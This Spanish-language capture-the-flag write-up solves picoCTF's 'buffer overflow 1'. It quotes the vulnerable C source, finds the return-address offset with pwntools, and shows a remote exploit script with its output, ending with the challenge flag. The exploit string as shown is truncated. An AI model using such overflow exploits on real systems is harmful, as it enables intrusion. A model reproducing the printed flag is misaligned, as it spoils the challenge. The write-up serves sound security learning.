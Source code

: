 
# buffer overflow 1

## Descripcion
Control the return addressNow we're cooking! You can overflow the buffer and return to the flag function in the [program](https://artifacts.picoctf.net/c/186/vuln).You can view source [here](https://artifacts.picoctf.net/c/186/vuln.c). And connect with it using `nc saturn.picoctf.net 53607`

## Pistas
1. Make sure you consider big Endian vs small Endian.
2. Changing the address of the return pointer can call different functions.
## Solucion
Vemos que en este reto se nos da un programa junto con su codigo fuente:

```bash()
  GNU nano 6.4                                           vuln.c                                                     
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "asm.h"

#define BUFSIZE 32
#define FLAGSIZE 64

void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}



```
vemos que la funcion win() llama a la bandera para imprimirla con un gets(). El cual es vulnarable ya que gets() no se contiene y sigue leyendo mas alla del buffer por lo cual lo podemos desbordar. 

```bash()
┌──(kali㉿kali)-[~/notas-hacking/PicoCTf/binary/BufferOverflow1]
└─$ ./vuln
Please enter your string: 
asldjfkasdjfjkasldjfkjasjfkl;sjlk;fdjas
Okay, time to return... Fingers Crossed... Jumping to 0x804932f

```
Al correr el programa se nos pide un string el cual podemos usar para sobrecargar la pila. Para calcular exactamente cuanto tenemos que usar las librerias de python llamadas pwntools. Vemos en el codigo fuente que el tamaño de bits de la bandera y del buffer no pasa los 64 bits, por lo cual para asegurar que si lo sobrecargemos usaremos la funcion in python y le daremos un tamaño de 100 bits al string: 

```bash()
Python 3.10.8 (main, Nov  4 2022, 09:21:25) [GCC 12.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> from pwn import *
>>> cyclic(100)
b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa'
>>> 


```
Se nos da ese string y lo insertamos en el programa y nos da un error de segmentacion ya que llenamos el buffer tanto que nos dio el "return address":

```bash()
┌──(kali㉿kali)-[~/notas-hacking/PicoCTf/binary/BufferOverflow1]
└─$ echo 'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa' | ./vuln
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x6161616c
zsh: done                echo  | 
zsh: segmentation fault  ./vuln

```
Ahora con la direccion que se nos proporciono al sobrescribrlo, usaremos cyclic_find in python para que nos regrese el numero exacto de caracteres para estar justo antes de la direccion de retorno:
```bash()
>>> cyclic_find(0x6161616c)
44

```
Si creamos 44 caracteres podemos sobrepasar el buffer y sobreescribir la direccion de retorno:
```bash()
>>> 'A'*44
'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'
```

Tenemos que averiguar la direccion de retorno:
```bash()
┌──(kali㉿kali)-[~/notas-hacking/PicoCTf/binary/BufferOverflow1]
└─$ objdump -D vuln -M intel | grep 'win'          
080491f6 <win>:
 804922c:       75 2a                   jne    8049258 <win+0x62>

```
La direccion de retorno es 080491f6 pero ocupamos que este invertida, lo cual lo logramos con python:
```bash()
>>> p32(0x080491f6)
b'\xf6\x91\x04\x08'

```
Entonces ya tenemos todo, ya tenemos el numero exacto de caracteres, los cuales ya creamos, ya tenemos la direccion de retorno y ya la invertimos ahora usamos todo para poder hacer llamar la funcion win(), pero al hacerlo nos dice que no existe ninguna flag. esto es porque lo estamos haciendo de manera local y no remota. Al lanzar el programa de manera remota ya podemos sacar la bandera. Esto lo haremos con un  programa de python para automatizar todo:
```bash()
from pwn import *

p = remote('saturn.picoctf.net',49684)

overflow='AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\>

print( p.recvuntil(':'))

p.sendline(overflow)

p.interactive()

```
ya con esto lanzamos el exploit y al lanzarlo nos da la bandera:

```bash()
                                                        
┌──(kali㉿kali)-[~/notas-hacking/PicoCTf/binary/BufferOverflow1]
└─$ python3 exp.py
[+] Opening connection to saturn.picoctf.net on port 49684: Done
/home/kali/notas-hacking/PicoCTf/binary/BufferOverflow1/exp.py:7: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  print( p.recvuntil(':'))
b'Please enter your string:'
/home/kali/notas-hacking/PicoCTf/binary/BufferOverflow1/exp.py:9: BytesWarning: Text is not bytes; assuming ISO-8859-1, no guarantees. See https://docs.pwntools.com/#bytes
  p.sendline(overflow)
[*] Switching to interactive mode
 
Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
picoCTF{addr3ss3s_ar3_3asy_9cf083f8}[*] Got EOF while reading in interactive
$  

```


## Bandera

picoCTF{addr3ss3s_ar3_3asy_9cf083f8}

## Notas adicionales

| comando | descripcion

## Referencias
